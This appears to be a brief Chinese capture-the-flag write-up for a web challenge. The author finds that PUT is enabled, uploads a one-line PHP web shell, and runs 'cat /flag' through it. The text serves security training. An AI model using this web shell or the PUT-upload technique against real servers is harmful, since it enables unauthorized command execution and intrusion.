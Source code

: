 # [NSSRound#1 Basic]basic_check

----

1.

![image-20240602121820799](https://gitee.com/bx33661/image/raw/master/path/image-20240602121820799.png)

发现没有什么东西，bp抓包没有发现：

![image-20240602121956923](https://gitee.com/bx33661/image/raw/master/path/image-20240602121956923.png)

利用Nikto：

![image-20240602122602137](https://gitee.com/bx33661/image/raw/master/path/image-20240602122602137.png)

发现put方法

2.

利用bp传put方法,==创造一个/bx.php==：

`<?system($_GET["cmd"])?>`

传入成功后利用get方法在`****/bx.php`这里获取flag

=="cat /flag"==
